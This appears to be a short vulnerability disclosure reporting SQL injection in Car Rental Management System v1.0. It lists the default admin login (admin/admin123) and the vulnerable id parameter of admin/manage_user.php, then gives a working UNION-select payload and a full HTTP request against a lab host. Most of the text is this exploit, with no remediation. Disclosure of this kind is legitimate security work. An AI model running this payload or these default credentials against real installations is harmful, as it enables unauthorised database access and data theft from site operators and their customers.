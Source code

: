 # Car Rental Management System v1.0 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/car-rental-management-system/

Vulnerability File: /car-rental-management-system/admin/manage_user.php?id=

Vulnerability location: /car-rental-management-system/admin/manage_user.php?id=,id

[+] Payload: /car-rental-management-system/admin/manage_user.php?id=-1%20union%20select%201,database(),3,4,5--+ // Leak place ---> id

Current database name: car_rental_db

```sql
GET /car-rental-management-system/admin/manage_user.php?id=-1%20union%20select%201,database(),3,4,5--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=q0aiu0hqk51vrl4kivubc7u18k
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170961812-190fd13b-af92-4487-a183-a462bb9b9bca.png)

![image](https://user-images.githubusercontent.com/54017627/170962011-f88fb894-0164-453b-97c4-9ff1b8bdc6a3.png)
